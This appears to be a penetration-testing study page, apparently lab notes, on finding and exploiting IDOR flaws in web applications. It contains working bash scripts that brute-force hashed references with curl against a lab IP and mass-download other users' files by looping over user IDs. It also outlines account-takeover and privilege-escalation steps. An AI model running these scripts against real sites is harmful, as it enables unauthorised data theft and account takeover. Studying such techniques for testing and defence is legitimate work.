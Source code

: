# Exploiting IDOR

### URL parameters and APIs&#x20;

Look for parameters that appear to be direct object references. for example:

```
?uid=1 or ?filename=file_1.pdf
```

These parameters can then be incremented or fuzzed. We should pay close attention to the page to look for changes when we change the parameters. For example, in applications that show documents or files for specific users, we may see different files if we change the parameter which would indicate we had found and IDOR vulnerability.&#x20;

### AJAX Calls

Look for unused parameters or API's in the front end code in the form of JavaScript AJAX calls. these may have been accidentally placed or left here and by modifying the HTTP request, we can possibly find an IDOR vulnerability.&#x20;

```
function changeUserPassword() {
    $.ajax({
        url:"change_password.php",
        type: "post",
        dataType: "json",
        data: {uid: user.uid, password: user.password, is_admin: is_admin},
        success:function(result){
            //
        }
    });
}
```

### Hashing/Encoding

For parameter input, the application may not always use a plain text value and instead could encode or hash the reference. If this is found the value could possibly be deoded, changed, and then re encoded to attempt to access sensitive data.&#x20;

We can also check the front end code to detect if a reference is being hashed:

```
$.ajax({
    url:"download.php",
    type: "post",
    dataType: "json",
    data: {filename: CryptoJS.MD5('file_1.pdf').toString()},
    success:function(result){
        //
    }
});
```

This can make it easy for us to calculate other reference values we would like to fuzz. If we cannot find the hash algorithm in an ajax call in the front end code, then we can use some hash identifier tools to attempt to learn the hash type.

Using this information, we can fuzz the parameter with the correct encoding.&#x20;

take for example this source code, which base64 encodes the value, then md5 hashes:

```
function downloadContract(uid) {
    $.redirect("/download.php", {
        contract: CryptoJS.MD5(btoa(uid)).toString(),
    }, "POST", "_self");
}
```

We could then craft a bash script, (or you could use burp intruder or zap) to properly modify the payload before sending it:

```
#!/bin/bash

for i in {1..20}; do
	value=$(echo -n $i | base64 -w 0 | md5sum | tr -d ' -')
	curl -sOJ -X POST -d "contract=$value" http://94.237.123.87:59911/download.php
done
```

some points about this script:

-n on the echo removes newline, which will get encoded and change the value if included&#x20;

tr -d ' -' removes the trailing ' -' from the output of the md5sum.

Make sure to review the source code and find out how the encoded value is being generated &#x20;

### User Roles

By registering multiple users and comparing their HTTP requests and object references, this may allow us to better understand how the URL parameters and object references are formatted, so we can use this to our advantage when looking for IDOR.

```
{
  "attributes" : 
    {
      "type" : "salary",
      "url" : "/services/data/salaries/users/1"
    },
  "Id" : "1",
  "Name" : "User1"

}
```

We can try to make the same API call when logged in as user2, and if the call is successful we know there is an IDOR vulnerability.&#x20;

### Mass Enumeration

We can fuzz with tools like Burp Suite, ZAP, or ffuf.&#x20;

#### Bash Script to download all files

Use the element inspector in the browser to identify the elements for the files and find a string to grep on:

```
curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep "<li class='pure-tree_link'>"

<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>
```

Then we can craft a regex just to get the file names we want:&#x20;

```shell-session
curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep -oP "\/documents.*?.pdf"

/documents/Invoice_3_06_2020.pdf
/documents/Report_3_01_2020.pdf
```

and finally use a for loop in bash to loop through user ID's and download all files with wget.&#x20;

```
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                wget -q $url/$link
        done
done
```

### Insecure API's and Function Calls&#x20;

This can be determined by examining requests going out to the server that are updated on the back end. We look for REST calls to API endpoints. these typically use PUT, POST, GET, and DELETE to interact with the API endpoint, and many times use json for the request body. i.e:

<figure><img src="../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We should look for interesting parameters which may have the possibility of an IDOR vulnerability, such as uid, uuid, or role in this instance. We should also look to see if any of these values are being set on our cookie and used for access control, as those can be valuable targets. That typically means the access control is being set client side, which we can modify. We can aim to attempt the following:

1. Change our `uid` to another user's `uid`, such that we can take over their accounts
2. Change another user's details, which may allow us to perform several web attacks
3. Create new users with arbitrary details, or delete existing users
4. Change our role to a more privileged role (e.g. `admin`) to be able to perform more actions

### Chaining IDOR vulnerabilities

Its important to keep in mind that one IDOR vulnerability may lead to another. sensitive information leaked in an information disclosure IDOR might be able to be utilized to exploit insecure API's or function calls. You may be able to use this to modify user details, change a users email address to one you control and request a password reset link, place an XSS in a user detail field, etc.&#x20;
